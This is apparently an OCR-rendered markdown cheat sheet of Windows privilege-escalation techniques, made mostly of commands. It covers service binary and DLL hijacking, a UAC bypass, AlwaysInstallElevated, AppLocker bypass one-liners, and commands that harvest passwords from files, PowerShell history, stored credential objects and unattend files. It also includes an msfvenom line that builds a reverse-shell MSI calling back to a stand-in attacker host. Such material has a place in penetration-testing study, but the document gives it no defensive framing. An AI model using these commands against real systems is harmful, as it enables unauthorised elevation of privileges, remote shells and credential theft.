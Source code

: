 ## Service-based Privilege Escalation

### Service Binary Hijacking
> Replace a service binary with a malicious one when permissions allow

```powershell
# Check service binaries and permissions
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls "C:\path\to\service.exe"

# Create a malicious service binary
# Compile with: x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

# Replace the binary and restart service
move C:\path\to\service.exe service.exe.bak
move adduser.exe C:\path\to\service.exe
net stop [service_name]
net start [service_name]
# If you can't restart, check if auto-start: shutdown /r /t 0
```

### Unquoted Service Paths
> Services with unquoted paths can be exploited with space traversal

```powershell
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Create a malicious executable in the path
# Example for path: C:\Program Files\Vulnerable Service\service.exe
# Place malicious binary at: C:\Program Files\Vulnerable.exe
```

### DLL Hijacking
> Replace or add DLLs that are loaded by a service

```powershell
# Find potential DLL hijacking
Process Monitor - filter for "NAME NOT FOUND" and "PATH ENDING .dll"

# Create malicious DLL
# Compile with: x86_64-w64-mingw32-gcc -shared -o hijackme.dll dll_hijack.c

# Place in the correct location and restart service
```

##  UAC Bypass Techniques

### Standard UAC Bypass
> Bypass User Account Control to get elevated privileges

```powershell
# Check current UAC settings
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

# Check Windows build
[environment]::OSVersion.Version

# Use appropriate bypass technique (example using DLL hijacking)
# For Windows 10 build 14393
# 1. Create malicious DLL
# 2. Place in WindowsApps folder
# 3. Execute with trusted binary that auto-elevates
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## AlwaysInstallElevated

> If enabled, MSI files can be installed with SYSTEM privileges

```powershell
# Check if enabled (both must be set to 1)
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Create malicious MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker-ip LPORT=4444 -f msi -o malicious.msi

# Generate MSI with PowerUp
Import-Module .\PowerUp.ps1
Write-UserAddMSI

# Install MSI to get SYSTEM
msiexec /quiet /qn /i malicious.msi
```

## Credential Theft
> Various methods to extract credentials from Windows systems

```powershell
# Find passwords in files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# PowerShell history
gc (Get-PSReadLineOption).HistorySavePath
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

# Stored PowerShell credentials
$credential = Import-Clixml -Path 'C:\path\to\credential.xml'
$credential.GetNetworkCredential().username
$credential.GetNetworkCredential().password

# Unattended installation files
gc C:\Windows\Panther\Unattend.xml
gc C:\Windows\Panther\Unattend\Unattend.xml
gc C:\Windows\System32\sysprep\Unattend.xml

# More techniques coming soon...
```

## Restricted Environments

> Techniques for escaping restricted environments like Citrix, RDP restricted, AppLocker

```powershell
# Bypassing AppLocker
# Check current policy
Get-AppLockerPolicy -Effective | Format-List

# Use alternate execution methods:
# - Regsvr32: regsvr32.exe /s /u /i:test.sct scrobj.dll
# - MSBuild: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe payload.csproj
# - InstallUtil: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U payload.exe

# More techniques coming soon...
```

## Additional Techniques

> Additional privilege escalation techniques

```powershell
# Scheduled Tasks
schtasks /query /fo LIST /v

# Registry autoruns
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

# Insecure GUI apps
# Look for apps running as SYSTEM that may have exploitable features

# More techniques coming soon...
```

## Dealing with End of Life Systems

> Targeting outdated systems that are no longer receiving security updates

```powershell
# Identify EOL systems
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Common EOL systems:
# - Windows XP/2003: MS17-010 (EternalBlue)
# - Windows 7/2008 R2: Multiple known vulnerabilities
# - Windows 8/2012: Multiple known vulnerabilities

# More techniques coming soon...
```